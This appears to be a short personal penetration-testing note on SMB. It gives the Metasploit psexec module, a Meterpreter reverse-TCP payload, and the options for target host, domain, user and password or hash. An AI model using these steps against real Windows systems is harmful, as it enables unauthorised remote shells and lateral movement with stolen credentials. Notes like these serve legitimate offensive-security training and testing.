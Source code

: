 
# SMB

Use #metasploit #LLMNR #smb #psexec
![[Pasted image 20240909122044.png]]

```
use exploit/windows/smb/psexec
```

```
set payload windows/x64/meterpreter/reverse_tcp
```
- can use password or a hash
- set rport
- set rhost
- set smbdomain
- set smbuser
- set smbpass 



